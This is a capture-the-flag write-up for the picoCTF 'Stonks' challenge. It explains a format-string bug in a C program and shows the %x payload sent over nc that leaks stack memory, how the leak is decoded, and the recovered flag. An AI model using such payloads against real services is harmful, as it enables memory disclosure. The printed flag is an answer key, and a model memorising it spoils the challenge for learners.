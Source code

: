 # Stonks

[Link to the challenge](https://play.picoctf.org/practice/challenge/105)

## Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/7e71fc0d8cc3339bfad6bf408f7dc510/vuln.c) `nc mercury.picoctf.net 6989`

## Hints

- Hint 1: Okay, maybe I'd believe you if you find my API key.

## Solution

```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

After reading the source code, we can see that the program is reading 300 characters from the user and printing it out. This is a **String Format Vulnerability**. ([Learn more](https://owasp.org/www-community/attacks/Format_string_attack)). Let's see if we can leak the flag.

```bash
$ nc mercury.picoctf.net 6989
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
8f5c450804b00080489c3f7fc2d80ffffffff18f5a160f7fd0110f7fc2dc708f5b18018f5c4308f5c4506f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3538613032356533ffa9007df7ffdaf8f7fd0440a4589d0010f7e5fce9f7fd10c0f7fc25c0f7fc2000ffa92ec8f7e5068df7fc25c08048ecaffa92ed40f7fe4f09
Portfolio as of Fri Jan 26 12:02:55 UTC 2024


1 shares of TW
1 shares of JL
10 shares of UEUB
140 shares of KMFC
63 shares of L
6 shares of GVDM
46 shares of FOGH
40 shares of IN
240 shares of G
513 shares of OS
566 shares of XYG
Goodbye!
```

I got a lot of hex values. I tried to decode it using [CyberChef](https://gchq.github.io/CyberChef/) using the **From Hex** operation.

Here is the hex:

```
8f5c450804b00080489c3f7fc2d80ffffffff18f5a160f7fd0110f7fc2dc708f5b18018f5c4308f5c4506f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3538613032356533ffa9007df7ffdaf8f7fd0440a4589d0010f7e5fce9f7fd10c0f7fc25c0f7fc2000ffa92ec8f7e5068df7fc25c08048ecaffa92ed40f7fe4f09
```

Here is the decoded hex:

```
\E° H?ÂØÿÿÿñZÐÂÜp[\CõÄPocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3ÿ© }÷ÿÚø÷ý@¤X ÷åüé÷ýÀ÷ü%À÷ü  ÿ©.È÷å÷ü%ÀHì¯úí@÷þO
```

As you can see, there is a flag in the decoded hex `ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3}`. But it is reversed by 4 characters. I this javascript code to reverse it.

```javascript
console.log(
  "ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3}"
    .match(/.{1,4}/g)
    .map((x) => x.split("").reverse().join(""))
    .join("")
);
```

```bash
$ node reverse.js
picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}
```

## Flag

picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}
